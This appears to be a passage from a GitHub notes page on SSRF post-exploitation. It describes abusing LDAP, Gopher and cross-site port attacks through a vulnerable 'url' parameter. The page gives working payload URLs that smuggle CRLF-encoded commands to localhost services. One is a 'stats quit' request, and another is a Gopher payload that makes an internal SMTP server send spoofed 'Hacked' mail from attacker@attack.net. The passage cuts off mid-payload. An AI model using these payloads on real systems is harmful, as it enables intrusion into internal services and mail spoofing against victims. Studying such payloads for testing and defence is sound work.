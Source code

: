 ![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/url.png)

![enter image description here](https://raw.githubusercontent.com/ShubhamDubeyy/Route-To-Toor/gh-pages/protocols.png)

### **Post Exploitation Methodology We Should Follow**
- LDAP
- GOPHER
- Cross-Site Port Attack (XSPA)


- **LDAP** : LDAP (Lightweight Directory Access Protocol) is an open and cross platform protocol used for directory services authentication.
LDAP provides the communication language that applications use to communicate with other directory services servers. Directory services store the users, passwords, and computer accounts, and share that information with other entities on the network

***Abusing LDAP***  
  
`https://target.com/page?url=ldap://127.0.0.1/%0astats%0aquit  
https://target.com/page?url=ldap://localhost:11211/%0astats%0aquit`  
  
`Makes request like:  
stats  
quit`


- **GOPHER** : The **Gopher** protocol [/ˈɡoʊfər/](https://en.wikipedia.org/wiki/Help:IPA/English "Help:IPA/English") is a [communications protocol](https://en.wikipedia.org/wiki/Communications_protocol "Communications protocol") designed for distributing, searching, and retrieving documents in [Internet Protocol](https://en.wikipedia.org/wiki/Internet_Protocol "Internet Protocol") networks. The design of the Gopher protocol and user interface is menu-driven, and presented an alternative to the [World Wide Web](https://en.wikipedia.org/wiki/World_Wide_Web "World Wide Web") in [its early stages](https://en.wikipedia.org/wiki/History_of_the_World_Wide_Web "History of the World Wide Web"), but ultimately fell into disfavor, yielding to the [HTTP](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol "Hypertext Transfer Protocol"). The Gopher ecosystem is often regarded as the effective predecessor of the World Wide Web.[[1]](https://en.wikipedia.org/wiki/Gopher_(protocol)#cite_note-1)

***Abusing Gopher***  
  
`https://target.com/page?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%attacker@attack.net%3E%250d%250aRCPT%20TO%3A%3Cvictim@target.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BAttacker%5D%20%3Cattacker@attack.net%3E%250d%250aTo%3A%20%3Cvictime@target.com%3E%250d%250aDate%3A%20Fri%2C%2013%20Mar%202020%2003%3A33%3A00%20-0600%250d%250aSubject%3A%20Hacked%250d%250a%250d%250aYou%27ve%20been%20exploited%20%3A%28%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a`  
  
`Makes request like:  
HELO localhost  
MAIL FROM:<attacker@attack.net>  
RCPT TO:<victim@target.com>  
DATA  
From: [Attacker] <attacker@attack.net>  
To: <victim@target.com>  
Date: Fri, 13 Mar 2020 03:33:00 -0600  
Subject: Hacked  
  